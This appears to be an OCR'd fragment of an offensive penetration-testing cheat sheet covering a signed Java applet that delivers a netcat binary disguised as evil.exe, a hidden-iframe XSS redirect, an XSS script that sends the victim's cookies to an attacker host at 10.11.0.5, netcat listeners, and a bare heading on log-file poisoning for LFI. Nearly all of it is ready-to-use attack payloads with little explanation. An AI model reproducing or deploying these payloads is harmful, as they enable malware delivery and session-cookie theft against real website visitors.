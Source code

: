 \-signedjar SignedJava.jar Java.jar signapplet

cp Java.class SignedJava.jar /var/www/html/

echo '\<applet width="1" height="1" id="Java Secure" code="Java.class"

archive="SignedJava.jar"\>\<param name="1"
value="http://10.11.0.5:80/evil.exe"\>\</applet\>' \> /var/www/html/java.html

cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe

![](media/30e78257fa5246fd90208746aad5919b.png)

XSS redirection

\<iframe SRC="http://10.11.0.5/report" height = "0" width ="0"\>\</iframe\>

nc -nlvp 80

XSS Steal cookie

\<script\>

new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;

\</script\>

nc -nlvp 80

LFI

Contaminating Log Files
